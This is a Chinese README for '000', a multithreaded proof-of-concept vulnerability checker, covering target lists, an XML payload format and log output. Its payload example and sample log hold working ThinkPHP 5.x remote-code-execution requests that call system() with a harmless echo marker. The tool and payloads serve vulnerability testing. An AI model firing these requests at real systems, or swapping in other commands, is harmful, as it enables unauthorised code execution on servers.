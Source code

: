 # 000

第一个从零开发的作品，所以就叫000了，- -

## 简介

000是一个平平无奇的poc验证器，支持多线程、多目标、多poc和单个代理。

## 使用方法

> 1. 填目标ip

可以用`--url`或`-u`指定一个，或者每行一个填入某个文件中，之后用`--url-file`或者`-uf`填入它的路径。

如果`-u`和`-uf`同时存在，则他俩都会被加入扫描列表中

举例:

```
python3 000.py -u "http://127.0.0.1" -uf "urls.txt"
```

其中写到文件中的目标支持下面三种方式：

```
192.168.124.128:80
http://192.168.124.128:8080
http://192.168.124.128:8081/
```

> 2. 写入payload

Payload内容为xml，举例如下：

```
<?xml version="1.0" encoding="UTF-8"?>
<root>
    <payload>
        <!-- ThinkPHP5 5.0.23 Remote Code Execution Vulnerability -->
        <GET>/index.php?s=captcha</GET>
        <POST>_method=__construct&amp;filter[]=system&amp;method=get&amp;server[REQUEST_METHOD]=echo "123"|base64</POST>
        <Header>
            <User-Agent>Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36</User-Agent>
        </Header>
        <Vuln_Condition>MTIzCg==</Vuln_Condition>
    </payload>
</root>
```

`Vuln_Condition`是用来检测漏洞是否存在的字符串。若发送poc后响应包中含有该字符串，则判定该漏洞存在。

写完后需要将其放在一个文件夹中（默认`payload`文件夹，也可以用`--payload-folder`或者`-pf`指定一个你喜欢的文件夹），程序会自动导入该文件夹中的所有`.xml`文件

> 3. 获取扫描结果

程序运行时会在命令行里打印出哪个目标有洞。为了获取更详细的结果我们可以去`log`文件夹找到本次扫描对应的日志文件`xxx.log`，其中就会有详细的信息。

日志会是这样的：

```
[!] Only successful operations are recorded
===============2021-01-18 22:57:58===============
URL: http://192.168.124.128:80/index.php
|Header:
|	User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
|GET:
|	/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo "123"|base64
```

> 4. 其他

当然还有代理、线程数、timeout、是否允许重定向的设置。可以用`-h`获取它们的使用方法

# Q&A

Q: 我需要安装什么包？

A: 必须安requests，如果需要使用socks4/5代理的话还需要安装pysocks

 

